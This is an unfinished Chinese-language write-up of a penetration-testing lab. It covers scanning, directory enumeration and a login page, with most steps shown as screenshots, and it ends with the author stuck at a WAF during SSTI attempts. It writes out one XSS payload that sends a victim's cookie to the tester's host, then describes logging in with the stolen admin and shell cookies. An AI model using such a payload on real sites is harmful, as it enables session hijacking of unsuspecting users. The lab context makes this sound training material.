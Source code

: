 # 靶场&拓扑情况

# 渗透过程

nmap网络环境扫描

![](attachments/Pasted%20image%2020230321103537.png)

访问网页服务，信息收集

![](attachments/Pasted%20image%2020230321103914.png)

在contact发现了一个功能点

![](attachments/Pasted%20image%2020230321104043.png)

dirsearch目录扫描

![](attachments/Pasted%20image%2020230321112141.png)

后台

![](attachments/Pasted%20image%2020230321112408.png)

登录报文

![](attachments/Pasted%20image%2020230321112434.png)

这里思考了组件的漏洞和jwt的cookie伪造没有办法
最后的解决是XSS，在这里一个早一些和这个功能联系起来的
`<svg onload=document.location='http://192.168.163.128?c='+document.cookie>`

![](attachments/Pasted%20image%2020230321153525.png)

![](attachments/Pasted%20image%2020230321153920.png)

那这个cookie登录admin

![](attachments/Pasted%20image%2020230321155617.png)

这里去看log，但是很奇怪为什么bot点xss在我这里有反馈，导致没有办法做操作

![](attachments/Pasted%20image%2020230321160120.png)

这里用burp来拦截放包避免影响，或者构造这样的传参

![](attachments/Pasted%20image%2020230321161017.png)

现在下面可以看到大量的请求

![](attachments/Pasted%20image%2020230321161126.png)

会发现有一个访问了shell的cookie，偷过来用，进入shell界面

![](attachments/Pasted%20image%2020230321161707.png)

发现网站还在建设中，用不了，这里唯一有变化的是Auth的值，尝试SSTI发现报Don't think so!应该是waf

![](attachments/Pasted%20image%2020230321162715.png)

结合下面这个mofo=test的报文，应该是对Auth这个Cookie值有检测

![](attachments/Pasted%20image%2020230321163803.png)

卡在这里了呜呜呜